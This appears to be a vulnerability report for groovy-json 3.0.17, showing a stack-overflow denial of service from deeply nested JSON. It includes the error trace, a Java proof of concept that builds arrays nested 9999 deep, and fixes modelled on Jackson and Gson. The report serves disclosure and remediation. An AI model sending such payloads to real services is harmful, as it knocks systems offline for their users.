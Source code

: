 ## StackOverflowError caused by groovy-json parsing of untrusted JSON String
### Description
---
Using groovy-json to parse untrusted JSON String may be vulnerable to denial of service (DOS) attacks. If the parser is running on user supplied input, an attacker may supply content that causes the parser to crash by stackoverflow.

### Error Log
---
        Exception in thread "main" java.lang.StackOverflowError
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:252)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            ...
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
### Version
        <dependency>
            <groupId>org.codehaus.groovy</groupId>
            <artifactId>groovy-json</artifactId>
            <version>3.0.17</version>
        </dependency>

### PoC
---
import groovy.json.JsonParser;
import org.apache.groovy.json.internal.JsonFastParser;

        public class CodehausGroovyJsonTest {

            public final static int TOO_DEEP_NESTING = 9999;
            public final static String TOO_DEEP_DOC = _nestedDoc(TOO_DEEP_NESTING, "[ ", "] ", "0");


            public static String _nestedDoc(int nesting, String open, String close, String content) {
                StringBuilder sb = new StringBuilder(nesting * (open.length() + close.length()));
                for (int i = 0; i < nesting; ++i) {
                    sb.append(open);
                    if ((i & 31) == 0) {
                        sb.append("\n");
                    }
                }
                sb.append("\n").append(content).append("\n");
                for (int i = 0; i < nesting; ++i) {
                    sb.append(close);
                    if ((i & 31) == 0) {
                        sb.append("\n");
                    }
                }
                return sb.toString();
            }

            public static void main(String[] args) {
                JsonParser jsonParser = new JsonFastParser();
                jsonParser.parse(TOO_DEEP_DOC);
            }
        }

        
### Rectification Solution
---
1.Refer to the solution of jackson-databind: Add the depth variable to record the current parsing depth. If the parsing depth exceeds a certain threshold, an exception is thrown. ([FasterXML/jackson-databind@fcfc499](https://github.com/FasterXML/jackson-databind/commit/fcfc4998ec23f0b1f7f8a9521c2b317b6c25892b))

2.Refer to the GSON solution: Change the recursive processing on deeply nested arrays or JSON objects to stack+iteration processing.([google/gson@2d01d6a20f39881c692977564c1ea591d9f39027](https://github.com/google/gson/commit/2d01d6a20f39881c692977564c1ea591d9f39027%EF%BC%89))
